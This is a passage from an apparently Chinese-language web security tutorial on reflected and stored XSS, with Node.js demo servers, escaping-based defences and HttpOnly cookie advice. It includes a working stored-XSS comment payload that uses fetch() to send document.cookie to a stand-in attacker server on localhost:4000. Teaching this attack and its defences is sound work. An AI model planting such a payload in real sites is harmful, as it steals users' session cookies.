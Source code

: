 ```js
  res.end('Not Found')
}

http.createServer(onRequest).listen(3000) // 被攻击的网站
http.createServer(onRequest).listen(4000) // 攻击者收集cookie的服务器
```

运行上面的代码，然后打开访问恶意链接观察输出即可。

### 防御方案

造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，例如直接用 `encodeURIComponent` 对查询参数进行过滤：

```js
const tpl = req.query.q
  ? `<h3>「${encodeURIComponent(req.query.q)}」的搜索结果为：</h3>${Array(30).fill('x')}`
  : `请输入搜索的电影`
```

还有一种方式是写一个函数替换掉那些 `<`、`&` 等特殊字符：

```js
function encodeHTML(str) {
  return str
  .replace(/&/g,'&amp;')
  .replace(/"/g,'&quot;')
  .replace(/'/g,'&apos;')
  .replace(/</g,'&lt;')
  .replace(/>/g,'&gt;')
}
```

另外，如果后端登录验证是基于 Cookie 的话，一定要设置其属性为 HttpOnly，这样攻击者无法利用 JS 脚本获取到 Cookie 了。


## 存储型 XSS 攻防实战

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

### 攻击案例

假如在某网站上有一篇爆款文章：

```sh
https://xxx.com/articles/1
```

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```sh
文章写的真棒！<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！下面是完整的 `Node.js` 服务端源码：

```js
const http = require('http')
const URL = require('url')
const qs = require('querystring')

// 模拟文章数据库
const article = {
  id: 1,
  title: '体育新闻',
  content:
    '火箭在对阵雷霆首轮系列赛的第5场比赛中以114-80战胜对手，但在这场比赛中更受关注的还是丹尼斯-施罗德和PJ塔克之间的冲突导致两人都被驱逐，当然，在这场比赛之后火箭已经手握3-2的领先优势。',
  comments: ['评论1', '评论2'],
}

```

[dom-based]: https://www.netsparker.com/blog/web-security/dom-based-cross-site-scripting-vulnerability
[xss]: https://www.netsparker.com/blog/web-security/cross-site-scripting-xss
[innerHTML]: https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML
[DOMPurify]: https://github.com/cure53/DOMPurify